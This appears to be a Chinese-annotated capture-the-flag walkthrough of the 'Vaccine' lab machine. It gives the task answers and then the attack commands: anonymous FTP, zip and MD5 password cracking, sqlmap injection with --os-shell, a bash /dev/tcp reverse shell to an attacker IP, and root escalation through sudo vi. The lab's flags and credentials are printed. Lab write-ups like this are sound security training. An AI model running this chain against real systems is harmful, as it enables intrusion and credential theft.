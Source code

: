 <center>Vaccine</center>







[toc]







## Vaccine

> Vaccine





### 1. task

1. Besides SSH and HTTP, what other service is hosted on this box?

```shell
FTP
```

2. This service can be configured to allow login with any password for specific username. What is that username?

```shell
anonymous
```

3. What is the name of the file downloaded over this service?

```shell
backup.zip
```

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

```shell
zip2john
```

5. What is the password for the admin user on the website?

```shell
qwerty789
```

6. What option can be passed to sqlmap to try to get command execution via the sql injection?

```shell
--os-shell
```

7. What program can the postgres user run as root using sudo?

```shell
vi
```









### 3. flag

> 获取flag

* 信息收集

```shell
export 10.129.235.4

nmap -sV -sC $ip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.32
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```shell
# ftp 匿名登陆
ftp $ip

anonymous/anonymous

# 下载
get backup.zip

# unzip 解密，需要密码
# john 解密
zip2john backup.zip > pass 
# 下载wordlists
sudo apt install wordlists
john --wordlist=/usr/share/wordlists/john.lst pass 
```

![image-20241204133417580](./assets/image-20241204133417580.png)

> 解密出来：`index.php``index.css`

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

# 用户名和密码写死的
admin / qwerty789
```

> [md5](https://www.cmd5.com/)

> 解密方法2

```shell
# 查看输入那种hash
echo "2cb42f8734ea607eefed3b70af13bbd3" > hash
hashid hash

# hash爆破
sudo apt install hashcat
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt

2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

> 登陆网站。

* sql注入

```shell
# 查询页面
http://10.129.235.4/dashboard.php?search=admin%27%20or%201=1

# 报错说明前端数据可以影响后端查询。
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch
```

![image-20241204135500834](./assets/image-20241204135500834.png)

> 存在sql注入，使用sqlmap`os-shell`获取一个shell

```shell
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch --os-shell

# 获取到shell 获取反弹shell
# 开启监听
nc -lnvp 4444
# 反弹shell
bash -c "bash -i >& /dev/tcp/10.10.16.32/4444 0>&1"

# 交互shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

> 提权： 

```shell
# 网站目录下有数据库配置
/var/www/html

cat dashboard.php
```

```php
<?php
session_start();
if($_SESSION['login'] !== "true") {
  header("Location: index.php");
  die();
}
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}

catch ( exception $e ) {
  echo $e->getMessage();
}

```

> 登陆ssh`postgres/P@s5w0rd!`

```shell
ssh postgres@10.129.235.4 

# 登陆
# 查看权限
sudo -l
```

![image-20241204140820620](./assets/image-20241204140820620.png)

> 输出显示` postgres`用户权限下，可以使用sudo权限编辑pg_hba.conf文件。

```shell
# 编辑 pg_hba.conf获取shell

# 打开pg_hba.conf
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# 输入,直接输入 : 进行输入，无须打开编辑模式
:set shell=/bin/sh

# 再输入shell
:shell

# 获取到root权限了
cd /root
cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

